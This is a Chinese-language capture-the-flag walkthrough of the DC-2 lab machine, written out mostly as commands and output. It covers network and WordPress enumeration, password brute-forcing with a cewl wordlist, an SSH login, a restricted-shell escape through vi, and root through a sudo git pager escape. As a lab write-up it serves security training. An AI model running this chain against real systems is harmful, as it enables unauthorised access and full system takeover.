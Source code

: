 # DC-2

### 目标探测

使用arp扫描一下靶机目标

```
┌──(root㉿kali)-[~/Desktop/test]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f5:d6:36, IPv4: 192.168.5.134
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.5.1     00:50:56:c0:00:08       VMware, Inc.
192.168.5.2     00:50:56:f6:37:b9       VMware, Inc.
192.168.5.138   00:0c:29:9b:2a:1c       VMware, Inc.
192.168.5.254   00:50:56:fc:0f:b8       VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.936 seconds (132.23 hosts/sec). 5 responded
```

Nmap扫描一下目标开放端口

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nmap -sS -sV -p- -T4 192.168.5.138
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 02:10 EST
Nmap scan report for dc-2 (192.168.5.138)
Host is up (0.00085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:9B:2A:1C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

可用看到开放了两个端口80 web 和7744 ssh，我们访问一下80，IP访问跳转到了域名 我们将它加入到/etc/hosts文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
192.168.5.138   dc-2

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

可用看到这是一个wordpass网站吗，这个flag提供给我们的信息让我们用cewl生成密码用来登录一个用户

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

我们先用nikto扫描一下看看有没有扫描有用的信息

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nikto -host http://dc-2/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.138
+ Target Hostname:    dc-2
+ Target Port:        80
+ Start Time:         2023-12-14 02:23:26 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Drupal Link header found with value: ARRAY(0x562441ddf150). See: https://www.drupal.org/
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ /wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wp-login.php: Wordpress login found.
+ 7850 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2023-12-14 02:24:06 (GMT-5) (40 seconds)
```

这里有一个wordpass的登录页面，接下来我们用wpscan枚举一下它的用户名

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

这里枚举出来了三个用户名，接下来我们用cewl来生成密码，记得将用户名也保存到单独的txt文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cewl -w dc-2.txt -d 5 -m 4 http://dc-2/       
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

开始用wpscan 爆破密码

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ -U dc.txt -P dc-2.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

得到了两个账号，我们先用jerry这个用户登录一下wordpass

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

这里告诉我们，如果无法在这里拿到shell，我们得尝试一下其它方法去，我们尝试ssh登录一下

```
┌──(root㉿kali)-[~/Desktop/test]
└─# ssh jerry@192.168.5.138 -p7744      
jerry@192.168.5.138's password: 
Permission denied, please try again.

┌──(root㉿kali)-[~/Desktop/test]
└─# ssh tom@192.168.5.138 -p7744
tom@192.168.5.138's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 14 09:58:41 2023 from 192.168.5.134
tom@DC-2:~$
```

tom这个用户可用成功登录



### 权限提升

\
`rbash` 是 Bash shell 的一种限制模式。在这个模式下，用户受到一些额外的限制，使其只能执行有限的操作，从而提高系统的安全性。

```
tom@DC-2:~$ id
-rbash: id: command not found
```

在网上查找了一下这个绕过的方法

在命令行中，输入 vi，在末行模式中依次输入以下两条内容

```
:set shell=/bin/bash

:shell
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

再配置一下环境变量就可以绕过shell了

```
tom@DC-2:~$ export PATH=/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:~$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

我们查看一下有没有以root用户正在运行的命令，tom这个用户似乎不能执行这个命令，我们su切换到jerry这个用户

```
tom@DC-2:~$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:/home/tom$
```

可以看到git这个命令是以root权限运行的我们，通过搜索该提权方式可以利用以下命令提权

```
jerry@DC-2:/home/tom$ sudo git help status

!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

这样就获得了一个root权限的shell

```
jerry@DC-2:/home/tom$ sudo git help status
root@DC-2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
```
